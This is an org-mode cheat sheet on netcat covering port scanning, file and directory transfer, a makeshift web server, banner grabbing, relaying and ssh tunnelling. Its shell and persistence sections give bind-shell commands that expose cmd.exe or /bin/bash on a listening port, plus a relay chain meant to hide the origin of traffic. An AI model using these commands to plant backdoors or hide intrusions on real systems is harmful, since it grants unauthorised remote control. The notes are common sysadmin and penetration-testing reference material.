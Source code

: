 #+TAGS: netcat secuirty_tool


* netcat
HomePage: http://nc110.sourceforge.net/
* Description
The networking swiss army knife
* Usage

> netcat <options> host port

** Send a udp packet instead of initiating with tcp connection
#+BEGIN_SRC sh
netcat -u $HOST $PORT
#+END_SRC

** Port Scanning 
- with the domain
#+BEGIN_SRC sh
netcat -z -v domain.com 1-1000 2>&1 | grep "succeeded"
#+END_SRC
- without the domain
#+BEGIN_SRC sh
netcat -z -n -v 127.0.0.1 1-1000 2>&1 | grep "succeeded"
#+END_SRC

** Communicate through Netcat
- On the server run
#+BEGIN_SRC sh
netcat -l 4444
#+END_SRC

#+BEGIN_SRC sh
netcat $DOMAIN 4444
#+END_SRC

- messages will now be able to send messages between the server and client

** Sending data 
- On the machine that wants the file
#+BEGIN_SRC sh
netcat -l 4444 > recieved_file
#+END_SRC

- On the sending machine
#+BEGIN_SRC sh
netcat $DOMAIN 4444 < original_file
#+END_SRC

*** Sending a directory compressed
- On the machine that wants the file
#+BEGIN_SRC sh
netcat -l 4444 | tar xvf -
#+END_SRC
- the dash indicates that the tar will operate on std input

- On the sending machine from inside the directory that is to be copied over
#+BEGIN_SRC sh
tar -czf - * | netcat $DOMAIN 4444
#+END_SRC

** Simple Web Server
- On sever run:
#+BEGIN_SRC sh
netcat -l 4444 < index.html
#+END_SRC
l - listen

- To continually server page after first connection is closed
#+BEGIN_SRC sh
while true; do netcat -l 4444 < index.html; done
#+END_SRC
or
#+BEGIN_SRC sh
netcat -k -l 4444 < index.html
#+END_SRC

** Redirect a windows shell
#+BEGIN_SRC sh
nc -l -p 9999 -e cmd.exe
#+END_SRC
- ensure that the version of netcat that you use has the execute flag compiled
- always keep in mind that you are not in a terminal, but a cmd over the network

** Using netcat as a relay
Machine 1 - 192.168.0.10
#+BEGIN_SRC sh
netcat 192.168.0.11 -p 7777
#+END_SRC

Machine 2 - 192.168.0.11
#+BEGIN_SRC sh
netcat -l -p 7777 0<backpipe | netcat 192.168.0.12 8888 1>backpipe
#+END_SRC
- thiw now passes traffice between machine 1 and machine 2

Machine 3 - 192.168.0.12
#+BEGIN_SRC sh
netcat -L -p 9999 -e cmd.exe
#+END_SRC
L - persistent (only available on windows)

-for persistents on linux the script below can be used
#+BEGIN_SRC sh
while [ 1 ]; do echo "Netcat has 9 lives. Port is 7777"; nc -l -p 777 -e /bin/bash; done
#+END_SRC

All traffic logged on machine 3 would only show the ip for Machine 2

** Persistence
- Windows
#+BEGIN_SRC sh
netcat -L -p 9999 -e cmd.exe
#+END_SRC
L - persistent (only available on windows)

- Linux - 9lives.sh
#+BEGIN_SRC sh
while [ 1 ]; do echo "Netcat has 9 lives. Port is 7777"; nc -l -p 777 -e /bin/bash; done
#+END_SRC

** Tunneling with ssh
#+BEGIN_SRC sh
ssh -i Documents/id_rsa -L 8888:172.168.0.129:80 alick@172.16.0.134
#+END_SRC
** Getting site header
#+BEGIN_SRC sh
netcat example.com 80 <<END
HEAD / HTTP/1.1
Host: example.com


END
#+END_SRC
** Banner Grabbing
#+BEGIN_EXAMPLE
netcat 192.168.121.50 80 
GET HTTP 1/1
HTTP/1.1 400 Bad Request
Server: Microsoft-IIS/5.1
#+END_EXAMPLE

* Lecture
* Tutorial
** [[https://www.youtube.com/watch?v%3Dqo_sFS2A-mI][Introduction to Data Transfer with NetCat]]

* Books
[[file://home/crito/Documents/Security/Tools/Netcat_Starter.pdf][Netcat Starter]]
[[file://home/crito/Documents/Security/Tools/Netcat_Power_Tools.pdf][Netcat Power Tools]]
* Links

